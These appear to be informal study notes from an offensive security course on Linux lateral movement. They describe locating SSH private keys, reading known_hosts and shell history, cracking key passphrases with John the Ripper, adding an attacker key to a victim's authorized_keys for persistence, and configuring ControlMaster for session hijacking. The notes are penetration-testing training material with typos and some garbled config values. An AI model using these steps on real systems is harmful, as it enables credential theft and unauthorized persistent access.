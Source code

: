# Linux Lateral Movement

First,
we’ll leverage SSH and demonstrate how to steal keys and hijack open sessions. We will then
explore large-scale DevOps829 technologies and leverage both Ansible and Artifactory. Finally, we’ll
demonstrate how Kerberos-enabled Linux systems can create a bridge into Windows domains
and leverage this for lateral movement.


we need to configure our /etc/hosts file first with

```dotnetcli
controller: 192.168.120.40
• linuxvictim: 192.168.120.45
• dc01.corp1.com: 192.168.120.5
```

# lateral movement with ssh

ssh private kes are exellent opportunity for lateral movement.
The public key is stored in the ~/.ssh/authorized_keys file of the
server the user is connecting to. The private key is typically stored in the ~/.ssh/ directory on the
system the user is connecting from.ls

# ssh keys

ssh kes have permission set to 600

private keys are named as id_rsa by default 

we can use `find /home/ -name "id_rsa"`

if nothing comes up then there might be no keys with admin permission

```
└─$ find /home/ -name "id_rsa"
/home/kali/.ssh/id_rsa
```

It is always beneficial to look into the users home directory because the key could be stored with a different name there.

for example `svuser.key`

we can look at known_hosts

`cat ~/.ssh/known_hosts`

`tail .bash_history`

if they are connected to a controller server using svuser account then we can use host controller.

we can crack the passphrase through john the ripper

`sudo john --wordlist=/usr/share/wordlists/rockyou.txt ./svuser.hash`

`ssh -i ./svuser.key svuser@controller`

# SSH Persistence

~/.ssh/authorized_keys - 

ssh-keygen

echo "ssh-rsa AAAAB3NzaC1yc2E....ANSzp9EPhk4cIeX8=
kali@kali" >> /home/linuxvictim/.ssh/authorized_keys

ssh linuxvictim@linuxvictim

### 14.1.2.1 Exercises
1. Generate a private keypair with a passphrase on your Kali VM. Try to crack the passphrase
using JTR.
2. Generate a private keypair on your Kali VM and insert your public key in the linuxvictim user’s
authorized_keys file on the linuxvictim host and then SSH to it.

# SSH Hijacking with ControlMaster

The term SSH hijacking refers to the use of an existing SSH connection to gain access to another
machine. Two of the most common methods of SSH hijacking use the ControlMaster836 feature
or the ssh-agent.837
ControlMaster is a feature that enables sharing of multiple SSH sessions over a single network
connection. This functionality can be enabled for a given user by editing their local SSH
configuration file (~/.ssh/config).

```
Host *
ControlPath ~/.ssh/controlmaster/%r@%h:%p
ControlMaster auto
ControlPersist 10ma
```

These ControlMaster settings can also be placed in /etc/ssh/ssh_config to
configure ControlMaster at a system-wide level.

```
chmod 644 ~/.ssh/config
mkdir ~/.ssh/controlmaster

ls -al ~/.ssh/controlmaster/
```







